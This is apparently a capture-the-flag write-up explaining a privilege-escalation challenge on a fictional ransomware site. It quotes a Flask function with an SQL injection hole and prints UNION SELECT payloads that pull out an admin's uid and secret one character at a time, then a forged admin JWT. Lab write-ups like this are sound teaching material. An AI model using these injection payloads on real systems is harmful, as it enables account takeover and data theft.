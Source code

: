 <!-- HEADER -->
<div align="center">

# [\[<<\]](../Task6/) Task 7 - Privilege Escalation [\[>>\]](../Task8/)
![Category: Web Hacking, [redacted]](https://img.shields.io/badge/Category-Web_Hacking,_[redacted]-informational?style=flat-square)
![Points: 300](https://img.shields.io/badge/Points-300-43853D?style=flat-square)

![Task Screenshot](https://i.imgur.com/4diJM64.png)

</div>

<!-- DESCRIPTION -->
> With access to the site, you can access most of the functionality. But there's still that admin area that's locked off.
> 
> Generate a new token value which will allow you to access the ransomware site *as an administrator*.
> 
> ---
> 
> Enter a token value which will allow you to login as an administrator.
> ```
> ```

## Files
* [provided/](provided/)
	- (empty)
* [genTargetToken.py](genTargetToken.py) - Generates a token given a username

<!-- BREAKDOWN & SOLUTION -->
## Breakdown & Solution
Using the token we generated in the [last task](../Task6/), we can add it to our cookies and try to login. We know that the cookie name is `tok` from the [data file](../Task5/data.txt) we found. While you can do this natively using browser dev tools, I prefer to use a cookie-editor plugin:

![cookie](https://i.imgur.com/v4lXbXp.png)

Now that we should be authenticated, lets go to forum (we saw what pages existed from the [site source](../TaskB2/repo/app/templates/)) and see if we can find anything:

![forum](https://i.imgur.com/ZwhpLtK.png)

Interesting site. Lets get back to the task at hand, we need get an admin token. Going to `/adminlist` we see that the admin `SoggyPlate` is online:

![adminlist](https://i.imgur.com/kmR3aDf.png)

(RIP evil rock 😔😔)

Ok but how are we going to get an admin token? Well we only have limited access to the site. Looking at the [source code](../TaskB2/repo/app/), we can see that `/lock` and `/unlock` aren't much use to us. However, `userinfo()` is pretty interesting:

```py
def userinfo():
	""" Create a page that displays information about a user """			
	query = request.values.get('user')
	if query == None:
		query =  util.get_username()	
	userName = memberSince = clientsHelped = hackersHelped = contributed = ''
	with util.userdb() as con:	
		infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query # here!
		row = con.execute(infoquery).fetchone()	
		if row != None:
			userName = query
			memberSince = int(row[0])
			clientsHelped = int(row[1])
			hackersHelped = int(row[2])
			contributed = int(row[3])
	if memberSince != '':
		memberSince = datetime.utcfromtimestamp(int(memberSince)).strftime('%Y-%m-%d')
	resp = make_response(render_template('userinfo.html', 
		userName=userName,
		memberSince=memberSince, 
		clientsHelped=clientsHelped,
		hackersHelped=hackersHelped, 
		contributed=contributed,
		pathkey=expected_pathkey()))
	return resp
```

Notice how the `infoquery` variable is not secure!

Compared to every other selection query we've seen so far:

```py
def validate_token(token):
	# snipped
	row = con.execute('SELECT secret FROM Accounts WHERE uid = ?', (claims['uid'],)).fetchone()
	# snipped

def generate_token(userName):
	# snipped
	row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
	# snipped
	
def get_username():
	# snipped
	row = con.execute("select userName from Accounts where uid = ?", (uid,)).fetchone()
	# snipped
```

They all use `con.execute("...?...", (var,)).fetchone()` but ours is different! We directly use a string format:
```py
infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query # here!
```

Looking into this online, I found that con execute is secure against SQL injections, but unlike the rest, the one in `userinfo()` is not, these are sloppy mistakes that can be exploited!


We can see that in `userinfo()` it takes a request value of `user`:

```py
def userinfo():
	""" Create a page that displays information about a user """			
	query = request.values.get('user')
	if query == None:
		query =  util.get_username()	
	userName = memberSince = clientsHelped = hackersHelped = contributed = ''
```

This should just be equivalent of doing `/userinfo?user=0xfbad`! Lets try this with the admin's name `SoggyPlate`:

![userinfo](https://i.imgur.com/0Ah3Gvc.pngg)

Nice, so now we need to do a bit of SQL injection to get the admin's secret and user id. We can see that our input goes in that the query returns `memberSince, clientsHelped, hackersHelped, programsContributed`:

```py
if row != None:
	userName = query
	memberSince = int(row[0])
	clientsHelped = int(row[1])
	hackersHelped = int(row[2])
	contributed = int(row[3])
```

What instead we can do enter `'` so the query searches empty usernames (which there are none), then we UNION (combine) and select the information we want, in this case, just the user id. We can use this SQL payload:

```
' UNION SELECT 0, 0, 0, uid FROM Accounts WHERE userName='SoggyPlate' --
```
Lets go to `/userinfo?user=' UNION SELECT 0, 0, 0, uid FROM Accounts WHERE userName='SoggyPlate' --`:

![userinfo](https://i.imgur.com/6gVmwks.png)

Nice we got the admin's uid! (`15861`). Now we need to get the client secret. The issue however is that as we saw in the previous task, the client secret is a string, not a number. So we need somehow convert it to a number. What we'll do is convert the string into hex char by char and then convert it back via char codes:

```
' UNION SELECT 0, 0, 0, unicode(substr(secret, {index}, 1)) FROM Accounts WHERE userName='SoggyPlate' --
```

So lets run the [script](./genTargetToken.py) I made to automate this process

```
$ python genTargetToken.py
(..snipped..)

[!] Retrieved client secret:    6E4NYzI4gkMlEcYSZv5z1qaNKCoW2F2P

[*] Generating token with of "SoggyPlate" with uid: 15861 and secret: 6E4NYzI4gkMlEcYSZv5z1qaNKCoW2F2P
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzA1ODk3NDQsImV4cCI6MTcwMjEyNTc0NCwidWlkIjoxNTg2MSwic2VjIjoiNkU0Tll6STRna01sRWNZU1p2NXoxcWFOS0NvVzJGMlAifQ.3Hh1Q_Yz4SjhogG8FpvaAzUDpBJJqN_drXjb08u2Rt0
```

We got the client secret and thus were able to generate a new token! Lets submit `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzA1ODk3NDQsImV4cCI6MTcwMjEyNTc0NCwidWlkIjoxNTg2MSwic2VjIjoiNkU0Tll6STRna01sRWNZU1p2NXoxcWFOS0NvVzJGMlAifQ.3Hh1Q_Yz4SjhogG8FpvaAzUDpBJJqN_drXjb08u2Rt0`.

![Task Screenshot](https://i.imgur.com/7bVNFF1.png)

> ```
> Great! What can we find in the admin area?
> ```

<!-- TL;DR -->
## Technical TL;DR
The site owners left a vulnerable SQL injection in the `userinfo()` function. We were able to use this to get the admin's uid and client secret. Since we can only get back numbers in the response, we convert each char of the secret into its unicode representation and then convert it back into a char to build out the final secret. Then use the same process as task 6 to generate a new token with the admin's uid and secret.

---

<div align="center">

[return to top](#top)

</div>